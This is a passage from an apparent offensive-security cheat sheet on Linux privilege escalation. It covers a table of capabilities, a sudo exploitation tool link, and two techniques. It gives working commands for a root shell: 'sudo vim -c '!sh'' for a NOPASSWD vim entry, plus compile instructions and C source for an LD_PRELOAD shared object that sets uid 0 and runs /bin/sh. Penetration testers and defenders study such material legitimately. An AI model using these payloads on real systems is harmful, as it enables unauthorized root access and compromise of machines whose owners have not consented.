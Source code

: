 | CAP_SETPCAP  | Helps to transferring and removal of current set to any PID |
| CAP_IPC_LOCK  | This helps to lock memory  |
| CAP_MAC_ADMIN  | Allow MAC configuration or state changes  |
| CAP_NET_RAW  | Use RAW and PACKET sockets |
| CAP_NET_BIND_SERVICE  | SERVICE Bind a socket to internet domain privileged ports  |

## SUDO

Tool: [Sudo Exploitation](https://github.com/TH3xACE/SUDO_KILLER)

### NOPASSWD

Sudo configuration might allow a user to execute some command with another user privileges without knowing the password.

```bash
$ sudo -l

User demo may run the following commands on crashlab:
    (root) NOPASSWD: /usr/bin/vim
```

In this example the user `demo` can run `vim` as `root`, it is now trivial to get a shell by adding an ssh key into the root directory or by calling `sh`.

```bash
sudo vim -c '!sh'
sudo -u root vim -c '!sh'
```

### LD_PRELOAD and NOPASSWD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```
